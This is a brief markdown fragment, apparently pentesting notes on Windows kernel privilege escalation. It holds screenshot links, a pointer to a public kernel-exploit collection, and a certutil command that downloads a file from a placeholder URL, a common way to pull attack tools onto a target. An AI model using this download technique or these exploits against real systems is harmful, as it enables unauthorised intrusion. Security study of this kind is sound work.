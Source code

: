 ![kernel1](../pics/Screenshot%202020-06-25%20at%2022.31.39.png)
![kernel2](../pics/Screenshot%202020-06-25%20at%2022.32.01.png)

own the kernel = own the system.

good link:
- [secwiki windows-kernel-exploits](https://github.com/SecWiki/windows-kernel-exploits)
```cmd
certutil -urlcach -f <link> <filename>
```